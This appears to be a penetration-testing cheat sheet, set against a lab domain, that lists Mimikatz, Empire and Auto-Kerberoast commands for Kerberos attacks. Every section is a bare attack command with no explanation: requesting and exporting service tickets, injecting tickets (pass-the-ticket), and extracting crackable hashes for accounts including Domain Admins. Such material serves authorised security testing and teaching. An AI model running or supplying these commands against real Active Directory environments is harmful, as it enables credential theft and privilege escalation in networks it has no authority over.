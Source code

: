 # Mimikatz

**Service Ticket Request**
```
kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
```
**List Available Tickets**
```
kerberos::list
```
**Export Service Tickets**
```
kerberos::list /export
```
**Inject Ticket**
```
kerberos::ptt PENTESTLAB.kirbi
```
# Empire

**SPN Discovery**
```
usemodule situational_awareness/network/get_spn
```
**Kerberoast**
```
usemodule credentials/invoke_kerberoast
```
# Auto-Kerberoast

**SPN Discovery**
```
List-UserSPNs
```
**Service Ticket Request & Hash Extraction**
```
Invoke-AutoKerberoast
```
**Service Ticket Request & Hash Extraction for Domain Admins**
```
Invoke-AutoKerberoast -GroupName "Domain Admins" -Domain pentestlab.local -HashFormat John
```
